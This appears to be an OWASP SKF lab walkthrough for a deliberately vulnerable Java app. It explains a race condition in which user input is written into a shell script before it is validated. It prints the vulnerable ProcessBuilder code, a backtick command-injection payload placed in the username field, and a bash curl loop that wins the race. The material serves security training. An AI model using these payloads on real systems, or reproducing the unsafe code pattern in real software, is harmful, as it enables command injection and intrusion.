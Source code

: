 # Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-racecondition
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/java/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/java/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/java/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `bootValidate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `bootClean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `bootRun()` executes the `hello.sh` file

4. `bootReset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `bootValidate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `bootRun()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `bootRun()` executing the `hello.sh` file.

We also notice that the function `bootValidate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```java
public String bootValidate(String person) {
    try (FileWriter writer = new FileWriter("hello.sh", false)) {
      writer.write("echo \"" + person + "\" > hello.txt");
      writer.close();
      java.util.Date date = new java.util.Date();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh updated -- " + date + "' > log.txt").start();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh cleaned -- " + date + "' >> log.txt").start();
      Process p3 = new ProcessBuilder("/bin/bash", "-c", "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh")
          .start();
      BufferedReader reader = new BufferedReader(new java.io.InputStreamReader(p3.getInputStream()));
      String valid = reader.readLine();
      System.out.println(valid);
      return valid == null ? "" : valid;
    } catch (Exception e) {
      e.printStackTrace();
    }
    return "";
  }
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `bootRun()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `bootValidate`
2. write the malicious payload in `hello.sh`
3. call `bootRun()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '`' backtick.

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh
#!/bin/bash
while true; do

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/java/RaceCondition/4.png)

Congratulations, you won the race for real now!!!!!!!!

## Additional sources

{% embed url="https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
